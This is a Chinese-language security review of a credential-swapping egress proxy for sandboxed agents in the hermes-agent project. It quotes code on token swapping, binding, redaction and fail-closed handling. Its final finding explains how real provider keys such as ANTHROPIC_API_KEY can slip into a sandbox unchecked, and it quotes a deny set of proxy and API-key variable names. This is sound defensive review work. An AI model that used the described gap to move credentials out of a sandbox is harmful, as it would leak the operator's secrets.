                # matched location, reject it instead of forwarding as-is.
                # Without this, a real provider key that a sandbox process
                # sent directly (not via the minted token) would still pass
                # the proxy boundary to the allowed host. With require=true,
                # iron-proxy returns ActionReject when no token swap fired
                # (v0.39 secrets transform: replaceConfig.Require, enforced in
                # TransformRequest — verified present in the pinned version).
                "require": True,
```

匹配位置有三处:头(可多个,大小写不敏感)、查询参数(全扫)、**不扫 body**:

`agent/proxy_sources/iron_proxy.py:1168 @ 863e313`

```
                "match_headers": match_headers,
                # The token is also accepted as a query param — v0.39 scans
                # every query parameter for the token value, which covers
                # SDKs that pass ``?key=<token>`` (Gemini) as well as
                # bearer-in-query styles.  Body matching is off — we
                # don't want body inspection forced for every request.
                "match_query": True,
                "match_body": False,
```

**取舍**:`match_body: False` 意味着一个把 key 塞进 JSON body 的自定义 provider 不会被替换,
也不会被 `require` 拦下(因为 require 判的是"有没有发生替换",而这条规则的 host 会命中)。
这是为"不给每个请求强制上 body 检查"付出的代价,写在注释里了。

三类 provider 的覆盖面:

`agent/proxy_sources/iron_proxy.py:146 @ 863e313`

```
# Provider env-var name -> upstream host (or list of hosts) on which the
# Authorization Bearer token should be swapped.
_BEARER_PROVIDERS: Dict[str, Tuple[str, ...]] = {
    "OPENROUTER_API_KEY": ("openrouter.ai", "*.openrouter.ai"),
```

`agent/proxy_sources/iron_proxy.py:174 @ 863e313`

```
_HEADER_AUTH_PROVIDERS: Dict[str, Dict[str, Tuple[str, ...]]] = {
    # Anthropic native: x-api-key.  Authorization is also matched so an
    # SDK sending the token as a Bearer (OAuth-style) still swaps.
    "ANTHROPIC_API_KEY": {
        "hosts": ("api.anthropic.com",),
        "match_headers": ("x-api-key", "Authorization"),
        "aliases": (),
    },
```

别名为什么必须塌缩成**一条**规则,注释给了一个非常有价值的机制细节:

`agent/proxy_sources/iron_proxy.py:167 @ 863e313`

```
# ``aliases`` are interchangeable env-var names for the SAME upstream
# credential (Hermes' auth.py keys Google on both GEMINI_API_KEY and
# GOOGLE_API_KEY).  Aliased names MUST collapse into a single mapping:
# every rule carries ``require: true``, and two require-rules on the same
# host reject each other's requests (each rule whose own token isn't
# present returns ActionReject).  The sandbox receives the minted token
# under the canonical name AND every alias so SDKs reading either work.
```

**这是 `require: true` 的一个反直觉后果,重实现时必踩**:同一个 host 上放两条 require 规则,
它们会互相否决——因为每条规则都要求"我的 token 出现过"。

第三类是**明确无法覆盖**的(SigV4 / SDK 自签 OAuth),只告警不阻断:

`agent/proxy_sources/iron_proxy.py:216 @ 863e313`

```
_NON_BEARER_PROVIDERS: Tuple[str, ...] = (
    # AWS Bedrock / SageMaker: SigV4-signed requests.
    "AWS_ACCESS_KEY_ID",
    "AWS_SECRET_ACCESS_KEY",
    # GCP Vertex AI: OAuth bearer minted by the SDK from a service-account
    # file, not a static env key.
    "GOOGLE_APPLICATION_CREDENTIALS",
)
```

注释还记录了一次**删除死开关**的决定,值得作为设计范例:

`agent/proxy_sources/iron_proxy.py:210 @ 863e313`

```
# NOTE: this list used to include Anthropic / Azure OpenAI / Gemini, with an
# LLM-specific fail-closed tier (``proxy.fail_on_uncovered_providers``).
# Those providers moved to ``_HEADER_AUTH_PROVIDERS`` once we wired
# ``match_headers`` (upstream confirmed support on the pinned v0.39.0), which
# emptied the fail-closed tier — the flag and its refuse-start path were
# deleted rather than kept as a dead toggle.
```

### 5.4 配置在哪(与 R8A 配置全表对照)

R8A 的 `data/r8a-config-keys.tsv` 定位到根键 `proxy`;基线里的定义处是
`hermes_cli/config_defaults.py:3015`,共 **8 个子键**:
`enabled` / `tunnel_port` / `auto_install` / `credential_source` /
`enforce_on_docker` / `allow_env_fallback` / `upstream_deny_cidrs` / `extra_allowed_hosts`。

**默认判定:对目的地是"默认拒绝"(白名单外 403),对整个特性是"默认关闭"(`enabled: False`)。**
两者不要混为一谈——后者才是操作员的实际起点。

### 5.5 监听面:三个端口 + 一个管理口

`agent/proxy_sources/iron_proxy.py:1253 @ 863e313`

```
        "proxy": {
            # tunnel_listen is the CONNECT/MITM listener — what sandboxes
            # hit via `HTTPS_PROXY=http://host:tunnel_port` for HTTPS
            # upstreams (curl/requests/node issue CONNECT through it).
            # http_listen handles absolute-form plain-HTTP forwards
            # (`HTTP_PROXY` for http:// URLs) on tunnel_port+1.  Both
            # bind the docker bridge gateway on Linux / loopback on
            # Docker Desktop — NEVER 0.0.0.0.  LAN peers with a leaked
            # sandbox token would otherwise be able to spend the
            # operator's API quota against any allowlisted upstream.
            "tunnel_listen": primary_listen,
            "http_listen": plain_http_listen,
```

绑哪个 IP 是**平台相关**的,并且理由很硬:Linux 上 loopback 绑定容器根本连不上。

`agent/proxy_sources/iron_proxy.py:1024 @ 863e313`

```
    if platform.system() == "Linux":
        bridge_ip = _detect_docker_bridge_ip()
        if bridge_ip and bridge_ip != "127.0.0.1":
            return [f"{bridge_ip}:{tunnel_port}"]
```

`_detect_docker_bridge_ip` 用 `ipaddress` 做了一轮"这个 IP 像不像 docker0"的白名单式校验,
专门防"PATH 上被塞了一个假 `ip` 命令回吐 `0.0.0.0`":

`agent/proxy_sources/iron_proxy.py:1086 @ 863e313`

```
    if (
        addr.is_unspecified
        or addr.is_loopback
        or addr.is_multicast
        or addr.is_reserved
        or addr.is_link_local
        or addr.is_global
    ):
```

metrics 口被钉在 loopback ephemeral,原因是 iron-proxy v0.39 的 metrics 默认就是 `:9090`,
和 Hermes 的默认 `tunnel_port: 9090` 撞车:

`agent/proxy_sources/iron_proxy.py:1275 @ 863e313`

```
        # iron-proxy v0.39 starts a Prometheus-style metrics server by
        # default on ``:9090`` — which is the SAME port as our default
        # ``tunnel_port: 9090``, causing a guaranteed bind collision on
        # startup.  Pin the metrics listener to an ephemeral loopback
```

管理 API 在 `tunnel_port + 2`,**只绑 loopback**、bearer 鉴权:

`agent/proxy_sources/iron_proxy.py:1297 @ 863e313`

```
        "management": {
            "listen": f"127.0.0.1:{tunnel_port + _MGMT_PORT_OFFSET}",
            "api_key_env": _MGMT_API_KEY_ENV,
        },
```

`agent/proxy_sources/iron_proxy.py:120 @ 863e313`

```
_MGMT_API_KEY_ENV = "HERMES_IRON_PROXY_MGMT_KEY"
# The management listener binds loopback at tunnel_port + 2 (tunnel_port
# is CONNECT/MITM, +1 is the plain-HTTP forward listener).
_MGMT_PORT_OFFSET = 2
```

`hermes egress reload` 就是这个口的客户端,并且把三种失败翻译成了可操作的话:

`agent/proxy_sources/iron_proxy.py:971 @ 863e313`

```
        if exc.code == 422:
            raise RuntimeError(
                f"iron-proxy rejected the new config (validation failed; "
                f"the running ruleset is unchanged): {body}"
            ) from exc
        if exc.code == 401:
```

**重要边界(reload 能改什么、不能改什么)**:reload 重读 YAML、原子换掉 transform 流水线,
所以**改 allowlist / 改 token 映射**可以热生效;但**真凭据是子进程启动时从自身 env 读的**,
所以**轮换 key 必须 restart**。CLI 把这条写在了 reload 的输出里:

`hermes_cli/proxy_cli.py:711 @ 863e313`

```
    console.print(
        "[dim]Note: new upstream secrets (rotated keys, new providers) "
        "still need `hermes egress restart` — the daemon reads real "
        "credentials from its environment at spawn time.[/dim]"
    )
```

---

## 6. 凭据:存哪、怎么传、日志会不会漏

### 6.1 沙箱侧的 token 是什么

`agent/proxy_sources/iron_proxy.py:828 @ 863e313`

```
def mint_proxy_token(prefix: str = "hermes-proxy") -> str:
    """Mint a fresh opaque token to hand to the sandbox.

    The token has no internal structure beyond a recognizable prefix —
    iron-proxy matches on exact equality.  We use a 128-bit random suffix
    (32 hex chars from a SHA-256 of 32 bytes of os.urandom).  At that
    entropy the birthday-bound collision probability is below 2^-64 for
    up to 2^32 tokens, which is plenty for a proxy-scoped namespace.
    """
```

**注意:token 完全无结构、无有效期、无绑定。** 它的全部安全性来自"只有能连上我们这台
iron-proxy 的人才用得上"。所以绑定策略(§5.5 永不绑 `0.0.0.0`)是 token 模型的**承重墙**,
不是附加项。

### 6.2 真凭据的三条路径

**路径 1(默认,`credential_source: env`)**:宿主机 `os.environ` → 子进程 env。
关键在于**不是** `os.environ.copy()`:

`agent/proxy_sources/iron_proxy.py:1800 @ 863e313`

```
    # Build a minimal subprocess env.  os.environ.copy() would ship every
    # secret in the operator's shell to the proxy — /proc/<pid>/environ
    # would then expose OPENAI_API_KEY, AWS keys, etc. to any same-uid
    # local process.  Defeats the threat model the proxy exists to
    # mitigate.
```

`agent/proxy_sources/iron_proxy.py:2125 @ 863e313`

```
    env: Dict[str, str] = {}
    parent = os.environ
    for name in _PROXY_SUBPROCESS_ENV_ALLOWLIST:
        if name in parent:
            env[name] = parent[name]
```

`agent/proxy_sources/iron_proxy.py:2131 @ 863e313`

```
    # The proxy reads the real upstream secrets from its OWN env, indexed
    # by ``m.real_env_name`` in the YAML config's ``secrets.source.var``
    # field.  Forward those — but only those.  For alias providers
    # (GEMINI_API_KEY / GOOGLE_API_KEY), the rule is keyed on the canonical
    # name; when only the alias is set in the host env, mirror its value
    # into the canonical name so the swap still has a real secret.
```

基础设施变量是**白名单**,不是黑名单:

`agent/proxy_sources/iron_proxy.py:254 @ 863e313`

```
# Min env vars the iron-proxy subprocess actually needs.  Everything else
# is stripped — see ``_build_proxy_subprocess_env`` for the rationale.
_PROXY_SUBPROCESS_ENV_ALLOWLIST: Tuple[str, ...] = (
    "PATH",
    "HOME",
    "TMPDIR",
```

并且无条件剥掉代理链变量,防止代理把自己的流量又送回自己(或送进公司代理):

`agent/proxy_sources/iron_proxy.py:272 @ 863e313`

```
# Env vars that must be stripped from the subprocess env even if they're on
# the allowlist or named in mappings — these would either recurse the proxy
# back through itself or send its traffic through a corporate proxy.
_PROXY_SUBPROCESS_ENV_STRIP: Tuple[str, ...] = (
    "HTTPS_PROXY", "https_proxy",
    "HTTP_PROXY", "http_proxy",
    "ALL_PROXY", "all_proxy",
    "NO_PROXY", "no_proxy",
)
```

`agent/proxy_sources/iron_proxy.py:2260 @ 863e313`

```
    # Strip proxy-recursion-risk vars regardless of how they got in.
    for name in _PROXY_SUBPROCESS_ENV_STRIP:
        env.pop(name, None)
```

**同一套白名单也用在 `--version` 探测上**,理由写得很清楚(向一个 PATH 解析出来的、
来源未验证的二进制传全量 env 就是白送凭据):

`agent/proxy_sources/iron_proxy.py:692 @ 863e313`

```
        # Build a minimal env: only PATH, HOME, and locale vars.
        # The version probe is a one-shot subprocess — forwarding
        # the full host env (OPENAI_API_KEY, ANTHROPIC_API_KEY, etc.)
        # to a PATH-resolved or unverified binary is an unnecessary
        # credential leak.  Reuse the same allowlist the daemon
        # subprocess uses (see _build_proxy_subprocess_env).
```

**路径 2(`credential_source: bitwarden`)**:每次启动前用 BWS 重新拉。
关键是**只注入有映射的名字**,以及**默认 fail-closed**:

`agent/proxy_sources/iron_proxy.py:2170 @ 863e313`

```
                # Only inject env names we have a mapping for — extra
                # secrets in the BW project shouldn't leak into the proxy
                # process unless they're going to be used by the swap.
                missing = sorted(needed - set(secrets))
                for n in needed:
                    if n in secrets:
                        env[n] = secrets[n]
```

`agent/proxy_sources/iron_proxy.py:2187 @ 863e313`

```
                    if not (bitwarden_config or {}).get("allow_env_fallback"):
                        raise RuntimeError(
                            f"Bitwarden refresh did not return secrets for "
                            f"{missing}.  Either add the secrets to your BWS "
                            f"project, switch to credential_source: env via "
                            f"`hermes egress setup --no-bitwarden`, or set "
                            f"`proxy.allow_env_fallback: true` in config.yaml "
                            f"to opt into the legacy host-env fallback."
                        )
```

连 `ImportError` 都被当成"不许静默降级"处理——这是一处很克制的判断:
**"依赖在 setup 之后、restart 之前消失了"是 wizard 层查不到的**,所以守护层也要查一遍。

`agent/proxy_sources/iron_proxy.py:2232 @ 863e313`

```
        except (ImportError,) as exc:
            # The BWS module or one of its runtime deps isn't importable.
            # Mirror the sibling branches: if allow_env_fallback isn't
            # explicitly enabled, fail closed — credential_source=bitwarden
            # with a unavailable module should not silently degrade to host
            # env.  A wizard-time check can't catch a dependency that goes
            # missing between setup and a later restart.
```

**路径 3:管理 API bearer key。** 单独一份 0600 文件,`O_NOFOLLOW` + `O_CREAT` 直接以 0600 建:

`agent/proxy_sources/iron_proxy.py:862 @ 863e313`

```
    token = mint_proxy_token(prefix="hermes-mgmt")
    fd = os.open(
        str(p),
        os.O_WRONLY | os.O_CREAT | os.O_TRUNC | getattr(os, "O_NOFOLLOW", 0),
        0o600,
    )
```

### 6.3 日志/输出的脱敏(专门查了一遍)

**(a) CLI 默认脱敏,明文要显式开且给警告。**

`hermes_cli/proxy_cli.py:900 @ 863e313`

```
def _redact_token(token: str) -> str:
    if len(token) < 16:
        return token
    return f"{token[:12]}…{token[-4:]}"
```

`hermes_cli/proxy_cli.py:801 @ 863e313`

```
        if args.show_tokens:
            console.print(
                "[yellow]⚠[/yellow]  proxy tokens just printed in full — "
                "they may persist in your shell history.  Consider clearing "
                "it after this command."
            )
```

`format_status_text`(斜杠命令 / Dashboard / Desktop 共用)同样默认脱敏:

`hermes_cli/proxy_cli.py:744 @ 863e313`

```
    mappings = ip.load_mappings()
    if mappings:
        lines.extend(["", "Token mappings:"])
        for m in mappings:
            tok = m.proxy_token if show_tokens else _redact_token(m.proxy_token)
```

**(b) 模块自身的 `logger.*` 调用不打印任何凭据值。**
搜索面:

**R11C 片 C 改:原块是一段 `$` 提示符**转录**(命令、输出、逐条判读混排在同一个 ```verify 围栏里),原样重跑等于把输出行也当命令执行。下面拆成「可重跑命令 + 逐字输出」两块,
逐条判读移到块后正文。**命中集合与原块一致,结论未变。**

```verify
cd /home/user/hermes-agent && grep -nE "logger\.(debug|info|warning|error)" agent/proxy_sources/iron_proxy.py
```

```text
459:            logger.warning("iron-proxy auto-install failed: %s", exc)
489:        logger.info("Downloading %s", asset_url)
545:    logger.info("Installed iron-proxy %s at %s", _IRON_PROXY_VERSION, target)
579:        logger.warning(
594:        logger.warning(
610:        logger.warning(
628:    logger.info("Verified iron-proxy checksums.txt GPG signature.")
819:    logger.info("Generated iron-proxy CA at %s", ca_crt)
1028:        logger.warning(
1094:        logger.warning(
1432:        logger.warning("Failed to read iron-proxy mappings.json: %s", exc)
1999:    logger.info("Started iron-proxy pid=%s config=%s", proc.pid, cfg)
2196:                    logger.warning(
2207:                    logger.warning(
2227:                logger.warning(
2248:            logger.warning(
2319:            logger.warning(
2331:    logger.info("Stopped iron-proxy pid=%s", pid)
```

**18 处逐条看过**,参数依次是:459 异常对象 / 489 URL / 545 版本号+路径 / 579 无参 /
594 异常对象 / 610 gpg stderr 片段(截 200 字符) / 628 无参 / 819 路径 / 1028 无参 /
1094 候选 IP 字符串 / 1432 异常对象 / 1999 pid+配置路径 / 2196 缺失的**变量名**列表 /
2207 警告**条数** / 2227 无参 / 2248 异常对象 / 2319 pid / 2331 pid。
**没有任何一处传入 token 或 key 的**值**;2227 更是连变量**名**都不打**(理由见下)。

其中 BWS 那两条尤其小心——**连"环境变量名"都不打**,因为 CodeQL 的污点分析分不清名和值:

`agent/proxy_sources/iron_proxy.py:2213 @ 863e313`

```
                # NOTE: deliberately do not interpolate access_token_name
                # in the log message — CodeQL's taint analyzer treats
                # bitwarden_config values as secret-tainted (it can't
                # distinguish the env-var NAME from the env-var VALUE).
                # The name is non-secret but logging it just trips the
                # check for no real benefit.
```

BWS 的 warning 也只打条数不打内容:

`agent/proxy_sources/iron_proxy.py:2202 @ 863e313`

```
                # bws warnings are non-secret status messages (e.g. "no
                # project found", "rate limited"), but the taint analyzer
                # can't tell that — log the count and let the operator
                # rerun under verbose if they need detail.
```

**(c) 一处需要注意的转发:`_tail_log` 会把守护进程日志尾部原样抛进异常消息。**

`agent/proxy_sources/iron_proxy.py:2437 @ 863e313`

```
def _tail_log(path: Path, *, lines: int = 20) -> str:
    if not path.exists():
        return "(no log file)"
    try:
        data = path.read_bytes()[-8192:]
```

`agent/proxy_sources/iron_proxy.py:1954 @ 863e313`

```
                raise RuntimeError(
                    f"iron-proxy exited immediately (code {proc.returncode}). "
                    f"Last log lines:\n{tail}"
                )
```

**这不是缺陷,但是重实现时要意识到的信任传递**:一旦 iron-proxy 自己把凭据打进了日志
(取决于第三方二进制的行为,不在基线内),Hermes 会把它转发到终端和异常栈里。
`~/.hermes/proxy/iron-proxy.log` 本身是 0600 建的,并做了 uid 检查:

`agent/proxy_sources/iron_proxy.py:1851 @ 863e313`

```
    # Verify ownership — same st_uid check the pidfile uses.
    try:
        st = os.fstat(log_fd)
        if hasattr(os, "getuid") and st.st_uid != os.getuid():
            os.close(log_fd)
```

**(d) 落盘文件的权限:先 chmod 再原子 rename,避免 TOCTOU 窗口。**

`agent/proxy_sources/iron_proxy.py:1378 @ 863e313`

```
    # Tighten perms on the temp file BEFORE the atomic replace so the
    # final path is never briefly world-readable under a slack umask
    # (the config embeds proxy token values).  chmod-after-replace would
    # leave a TOCTOU window; the 0o700 state dir mitigates but same-uid
    # processes could still race.
    os.chmod(tmp_path, stat.S_IRUSR | stat.S_IWUSR)
    os.replace(tmp_path, out)
```

CA 私钥更进一步——**从第一个字节起就是 0600**,而不是 `copy2` 后再 chmod:

`agent/proxy_sources/iron_proxy.py:780 @ 863e313`

```
        # Move into place with private permissions.  CRITICAL: the key
        # has to be created with 0o600 from the very first byte — a
        # ``shutil.copy2`` followed by ``os.chmod`` leaves a TOCTOU window
        # where the private key is world-readable on multi-user hosts.
```

---

## 7. 失败模式:fail-closed 还是 fail-open

分两个层面看,结论不同。

### 7.1 守护进程侧:一律 fail-closed

| 情形 | 行为 |
|---|---|
| 二进制不存在且 `auto_install=false` | `RuntimeError("iron-proxy binary not available — run `hermes egress install`.")` |
| 没有 `proxy.yaml` | `RuntimeError(... "Run `hermes egress setup` first.")` |
| 子进程立刻退出 | 删 pidfile + 抛异常 + 附 20 行日志尾 |
| 5 秒内没绑上端口 | **杀掉子进程** + 删 pidfile + 抛异常 |
| pidfile 已存在且指向活进程 | 拒绝并发启动 |
| BWS 模式缺 token/项目/密钥 | 抛异常(除非显式 `allow_env_fallback`) |

"进程还活着"**不算**成功——必须端口真的在监听,这条是从一次真实故障里学来的:

`agent/proxy_sources/iron_proxy.py:1981 @ 863e313`

```
    # The previous version of this code treated "process still alive at
    # deadline" as success.  That left iron-proxy running but
    # non-listening on the port, with a pidfile pointing at it —
    # subsequent restarts would fail with "address in use" because the
    # orphan still held the port.  Require port-listening for success.
    if not listening:
```

pidfile 写在**探活之前**,理由是"父进程若在等待期间被杀,至少还能靠 pidfile 收尸":

`agent/proxy_sources/iron_proxy.py:1892 @ 863e313`

```
    # Write the pidfile IMMEDIATELY after Popen, BEFORE the listening
    # verification.  If the parent dies during the poll loop (SIGINT,
    # OOM, kernel pause), the pidfile is still on disk so the next
    # ``hermes egress stop`` can clean up the orphan.  Failure paths
    # below unlink the pidfile when they kill the child.
```

并且在轮询期间**临时接管 SIGINT/SIGTERM**,防止操作员 Ctrl-C 留下一个占着端口的孤儿:

`agent/proxy_sources/iron_proxy.py:1934 @ 863e313`

```
    prev_sigint = None
    prev_sigterm = None
    install_handlers = (
        platform.system() != "Windows"
        and threading.current_thread() is threading.main_thread()
    )
```

探活探的是**配置里的绑定 host**,不是无脑 loopback——否则 Linux 上桥接绑定的健康守护进程会被误杀:

`agent/proxy_sources/iron_proxy.py:1913 @ 863e313`

```
    # Probe the CONFIGURED bind host, not loopback unconditionally — on
    # Linux the daemon binds the docker bridge gateway, where a loopback
    # connect never succeeds and we'd kill a healthy daemon as "never
    # came up".
```

`stop_proxy` 在 SIGKILL 前会**再验一次 PID 没被回收**(`/proc/<pid>/stat` 的 starttime):

`agent/proxy_sources/iron_proxy.py:2308 @ 863e313`

```
        # Verify the pid hasn't been recycled before delivering SIGKILL.
        # Two checks:
        #   1. /proc/<pid>/stat starttime is unchanged (Linux)
        #   2. _pid_alive() still says it's an iron-proxy process
        starttime_after = _pid_proc_starttime(pid)
```

`_pid_alive` 的三级判据(nonce → argv0 basename → `ps comm`)也是从一次误判里长出来的:

`agent/proxy_sources/iron_proxy.py:1673 @ 863e313`

```
    The legacy ``"iron-proxy" in cmdline`` match was loose enough to match
    ``tail iron-proxy.log`` or an editor with that file open.  We tighten
    on argv[0] basename plus an in-process nonce instead.
```

nonce 要**同时**存内存和磁盘,因为 `start` 和 `stop` 常常是两次独立的 CLI 调用:

`agent/proxy_sources/iron_proxy.py:2061 @ 863e313`

```
    # Persist the nonce next to the pidfile (sibling, 0o600).
    # ``stop_proxy`` in a separate CLI invocation can read this and use
    # it to confirm the pid still refers to our binary even though the
    # module-global ``_proxy_nonce`` is fresh in the new process.
```

### 7.2 Docker 侧:由 `enforce_on_docker` 决定,默认 fail-closed

`hermes_cli/config_defaults.py:3033 @ 863e313`

```
        # When true, the Docker backend refuses to start a sandbox if the
        # proxy is enabled but not running.  False = fall back to direct
        # outbound with real credentials in the sandbox (the legacy posture).
        "enforce_on_docker": True,
```

`tools/environments/docker.py:432 @ 863e313`

```
    enforce = bool(proxy_cfg.get("enforce_on_docker", True))
```

五个失败分支(未配置 / 未运行 / CA 消失 / mappings 空 / docker_env 碰撞)共用一套语义:
`enforce` 为真就 `raise`,为假就 warning + **完全放弃代理**(注意:不是"部分放弃")。
CA 消失那一支的注释解释了为什么必须整体放弃而不能只丢挂载:

`tools/environments/docker.py:455 @ 863e313`

```
        # status.configured was True a moment ago but the CA file has
        # disappeared.  Treat this with the same enforce semantics as the
        # other failure branches — silently dropping the CA mount would
        # leave the sandbox with proxy env vars pointing at iron-proxy
        # but no trust anchor, so every TLS handshake would 5xx; or
        # worse, with enforce_on_docker=false we'd drop both the proxy
        # vars AND any other isolation, opening the sandbox.
```

"mappings.json 空"单独成一支,理由是这种失败从沙箱里看和上游宕机无法区分:

`tools/environments/docker.py:471 @ 863e313`

```
    # Corrupt or empty mappings.json is a silent failure mode that's
    # indistinguishable from an upstream outage from inside the sandbox
    # (every request returns 403).  Refuse to mount with empty mappings
    # rather than ship a broken sandbox.
```

**这里的读配置本身也做了 fail-safe**:配置文件坏掉时默认按"强制"处理。

`tools/environments/docker.py:1205 @ 863e313`

```
        except (ImportError, OSError):
            _enforce_egress_merge = True
        except Exception:  # noqa: BLE001 — yaml.YAMLError or similar
            # Malformed config.yaml; fail-safe to enforced.
            _enforce_egress_merge = True
```

**结论:`enforce_on_docker: false` 是 fail-open,但它是显式配置、默认关闭、
配置注释与用户文档都写明"你在主动放弃隔离保证",因此不记 ■。**
真正的 ■ 在下面 §10。

---

## 8. 配套测试(行为规格参照)

三个文件:`tests/test_iron_proxy.py`(24 个 `def test_`)、`tests/test_iron_proxy_cli.py`(11 个)、
`tests/test_iron_proxy_e2e.py`(3 个,`HERMES_RUN_E2E=1` 门控)。

```verify
$ cd /tmp/.../scratchpad && PYTHONDONTWRITEBYTECODE=1 PYTHONPATH=/home/user/hermes-agent \
    /home/user/hermes-venv/bin/python -m pytest --collect-only -q -p no:cacheprovider \
    --rootdir=<scratchpad> /home/user/hermes-agent/tests/test_iron_proxy.py \
    /home/user/hermes-agent/tests/test_iron_proxy_cli.py
...
35 tests collected in 0.16s
# 环境:/home/user/hermes-venv;基线在此之后 `git status --porcelain` 仍为空。
```

E2E 是**行为规格的最强证据**——它跑真二进制、真 curl,断言"上游看到真 key、且看不到 token":

`tests/test_iron_proxy_e2e.py:152 @ 863e313`

```
        captured = _CaptureHandler.captured_auth
        assert captured is not None, "upstream never received the request"
        assert real_secret in captured, (
            f"Authorization header was not swapped — upstream saw: {captured!r}"
        )
        assert proxy_token not in captured, (
            f"Proxy token leaked through to upstream: {captured!r}"
        )
```

它还顺带把两条"生产默认在测试里必须被显式关掉"的性质暴露出来
(deny CIDR 默认封 loopback;Linux 上默认绑桥接):

`tests/test_iron_proxy_e2e.py:105 @ 863e313`

```
            # Test target is on loopback — clear the default IMDS+loopback
            # deny list so iron-proxy will dial 127.0.0.1.
            upstream_deny_cidrs=[],
            # Hermetic: pin the bind to loopback.  Without this, Linux
            # hosts with docker0 present would bind the bridge gateway
            # (the production default) and the loopback curl below would
            # never reach the proxy.
            http_listen=[f"127.0.0.1:{tunnel_port}"],
```

---

## 9. 与 R7B 已精读的 relay / tunnel 是不是一回事

**不是。三者方向、协议、被谁调用都不同。**

| | `agent/proxy_sources/iron_proxy.py`(本轮) | `gateway/relay/`(R7B) | `hermes_cli/proxy/`(`hermes proxy`) |
|---|---|---|---|
| 方向 | **出站**:沙箱 → provider | **入站**:外部平台 → gateway | **入站**:外部 app → 本机 |
| 传输 | HTTP CONNECT + TLS MITM | WebSocket 长连 | HTTP(OpenAI 兼容) |
| 凭据动作 | 把**假 token 换成真 key** | 连接器握手鉴权 | 把**任意 bearer 丢弃**、贴上用户 OAuth 凭据 |
| 进程形态 | 第三方 Go 二进制子进程 | gateway 进程内的 adapter | Hermes 自己的 aiohttp 服务 |
| 谁触发 | 操作员手敲 `hermes egress start` | 配了 `gateway.relay_url` 就注册 | 操作员手敲 `hermes proxy` |
| CLI 名 | `hermes egress` | (无独立子命令) | `hermes proxy` |

`gateway/relay/__init__.py:1 @ 863e313`

> """Relay/connector support package for the Hermes gateway.

`hermes_cli/proxy/__init__.py:1 @ 863e313`

> """Local OpenAI-compatible proxy that forwards to OAuth-authenticated upstreams.

`hermes_cli/proxy/__init__.py:7 @ 863e313`

> The proxy listens on ``127.0.0.1:<port>``, accepts any bearer (the client's

**分工一句话**:iron-proxy 管"我们的凭据别流出去",relay 管"外面的消息怎么进来",
`hermes proxy` 管"外面的应用怎么借用我们已登录的订阅"。三者不共享任何代码
(`hermes_cli/proxy_cli.py` 与 `hermes_cli/proxy/` 是**同名不同物**,只差一个下划线,
这是本子系统最容易读错的地方)。

**◇ #2**:`hermes_cli/main.py:11361` 与 `hermes_cli/proxy_cli.py:44` 两处注释都说
入站 `hermes proxy` 子解析器"uses `dest='proxy_command'`",但全仓搜索
`grep -rn "proxy_command" --include=*.py .` 只命中这两条**注释自身**——
`hermes_cli/proxy/cli.py` 里既没有 `add_subparsers` 也没有任何 `dest=`。
这是过期的代码注释(不属 README/AGENTS.md/website/docs,故不记 ▲),
但它会让后来者以为存在一个并不存在的命名约定。

---

## 10. 定案:■ / ▲ / ◇ / ◎

### ■1 —— `~/.hermes/.env` 回填漏掉了整个 header-auth provider 家族

**现象**:`hermes egress setup` 从 `~/.hermes/.env` 回填 provider key 时,只认
`_BEARER_PROVIDERS ∪ _NON_BEARER_PROVIDERS`,**漏掉 `_HEADER_AUTH_PROVIDERS` 的全部 4 个名字**
(`ANTHROPIC_API_KEY` / `AZURE_OPENAI_API_KEY` / `GEMINI_API_KEY` / `GOOGLE_API_KEY`)。

`hermes_cli/proxy_cli.py:884 @ 863e313`

```
    added = 0
    known = set(ip._BEARER_PROVIDERS) | set(ip._NON_BEARER_PROVIDERS)
    for name in known:
        if name in os.environ and os.environ[name].strip():
            continue
```

**可复现判据**:

**R11C 片 C 改:命令与它的输出混排在一个 ```verify 围栏里。拆成命令 + 配对输出,
并按纪律补 `HERMES_DISABLE_LAZY_INSTALLS=1`(这条命令 import 基线模块)。**四个键与原块一致。**

```verify
HERMES_DISABLE_LAZY_INSTALLS=1 PYTHONDONTWRITEBYTECODE=1 PYTHONPATH=/home/user/hermes-agent \
  /home/user/hermes-venv/bin/python -c "
from agent.proxy_sources import iron_proxy as ip
known  = set(ip._BEARER_PROVIDERS) | set(ip._NON_BEARER_PROVIDERS)
header = set(ip._HEADER_AUTH_PROVIDERS)
alias  = {a for s in ip._HEADER_AUTH_PROVIDERS.values() for a in (s.get('aliases') or ())}
print('MISSING from .env backfill =', sorted((header|alias) - known))"
```

```text
MISSING from .env backfill = ['ANTHROPIC_API_KEY', 'AZURE_OPENAI_API_KEY', 'GEMINI_API_KEY', 'GOOGLE_API_KEY']
```

**为什么这不只是"少了个便利"**——完整因果链(每一环都在基线里可查):

1. 操作员的 `ANTHROPIC_API_KEY` 只在 `~/.hermes/.env`(文档第 41 行明确说这是受支持的用法)。
2. `_load_env_file_into_environ` 不回填它 → `discover_provider_mappings()` 读 `os.environ` 时看不到它
   (`agent/proxy_sources/iron_proxy.py:1487` 的 `if env_name not in names and not any(...)` 直接 `continue`)。
3. 于是 **没有 Anthropic 映射**:`mappings.json` 里没有它,`proxy.yaml` 的 `secrets` 里也没有它的规则。
4. 但 `api.anthropic.com` **仍在 allowlist 里**(`_DEFAULT_ALLOWED_HOSTS` 无条件包含,见 §5.1),
   而它**没有** `require: true` 规则(规则只按映射生成)→ 该 host 变成"允许出网、不检查凭据"。
5. 更糟的是 Docker 侧的两道防护**同时失效**,因为它们都以"名字在 `env_overrides` / `mappings` 里"为前提:

`tools/environments/docker.py:586 @ 863e313`

```
def _critical_egress_env_names(env_overrides: dict[str, str]) -> set[str]:
    """Env names that would weaken or bypass enforced egress if overridden."""
    critical = {
        "HTTPS_PROXY", "https_proxy", "HTTP_PROXY", "http_proxy",
        "NO_PROXY", "no_proxy",
        "REQUESTS_CA_BUNDLE", "SSL_CERT_FILE", "CURL_CA_BUNDLE",
        "NODE_EXTRA_CA_CERTS", "NODE_OPTIONS",
    }
    critical.update(
        key for key in env_overrides
        if key.endswith("_API_KEY") or key.endswith("_TOKEN")
    )
    return critical
```

`tools/environments/docker.py:1152 @ 863e313`

```
            _critical_provider_keys: set[str] = set()
            try:
                from agent.proxy_sources import iron_proxy as _ip_for_mappings
                _critical_provider_keys = {
                    m.real_env_name for m in _ip_for_mappings.load_mappings()
                }
```

   即:`docker_forward_env: ["ANTHROPIC_API_KEY"]` 或 `docker_env: {ANTHROPIC_API_KEY: ...}` 在
   `enforce_on_docker: true` 下**不会触发任何碰撞检测**(名字不在 `env_overrides` 也不在 `mappings`),
   而显式 forward 是会压过通用黑名单的:

`tools/environments/docker.py:1546 @ 863e313`

```
        # Explicit docker_forward_env entries are an intentional opt-in and must
